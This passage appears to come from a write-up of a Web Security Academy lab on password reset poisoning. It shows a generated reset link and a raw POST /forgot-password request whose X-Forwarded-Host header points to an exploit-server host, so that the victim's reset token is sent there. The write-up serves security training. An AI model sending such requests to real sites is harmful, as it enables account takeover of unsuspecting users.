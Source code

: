 ![img](media/c528acf9b26f7ca47b45de67e0a9184a.png)

The link generated is
“https://0a12001204e7e3e982ef202200a10043.web-security-academy.net/forgot-password?temp-forgot-password-token=JiMwnEiWPtqhfR5EAaUObelEM6CE11uK”:

![img](media/d9025a001490d04c93213f342a02c697.png)

It is possible to poison the URL of the email using the header
“X-Forwarded-Host”:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /forgot-password HTTP/2
...
X-Forwarded-Host: exploit-0a870063038466fd80799d71012c004f.exploit-server.net

username=carlos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
